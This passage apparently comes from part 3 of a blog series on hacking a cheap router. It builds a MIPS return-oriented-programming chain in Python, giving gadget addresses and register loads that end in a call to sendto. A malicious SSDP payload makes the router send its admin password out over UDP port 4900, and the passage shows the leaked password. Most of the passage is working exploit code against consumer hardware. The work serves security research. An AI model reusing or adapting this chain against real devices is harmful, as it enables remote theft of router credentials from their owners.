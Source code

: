 ```
chain += p32(0xdeadbeef) # s3
chain += p32(0xdeadbeef) # s4
chain += p32(0xdeadbeef) # s5
chain += p32(0xdeadbeef) # s6
chain += p32(0xdeadbeef) # s7
chain += p32(0x1895cc + base_address) # ra
```

That last gadget is very ugly, but gadgets that move values into *$t0* are pretty limited so I had to take what I could get.

Now we can finally complete the arguments by putting 0x20 into *$t1*:

```
-python
# Move 0x20 into t1
# 0x001895cc: addiu $t1, $zero, 0x20; lw $ra, 0x2c($sp); lw $s2, 0x28($sp); lw $s1, 0x24($sp); lw $s0, 0x20($sp); jr $ra; addiu $sp, $sp, 0x30;
chain += b'b' * 0x20
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x57864 + base_address) # ra
```

With all the arguments in place, we can finally call the function - you know the drill by now:

```
-python
# Load address of sendto into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sendto_addr) # v0 - sendto address
chain += b'b' * 8
chain += p32(0x15114 + base_address) # ra

# Call sendto and regain control
# 0x15114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0xdeadb33f) # ra
```

And thats the entire chain completed!

## Does it work?

Setting up Wireshark to view the traffic coming to and from the router, we can see the malicious SSDP payload being sent to the router, and the router responding with a UDP packet on port 4900 containig the admin password : *Aliexpress4Eva*!

![pwned.png](/assets/images/analysing_a_dirt_cheap_router_part_3/pwned.png)
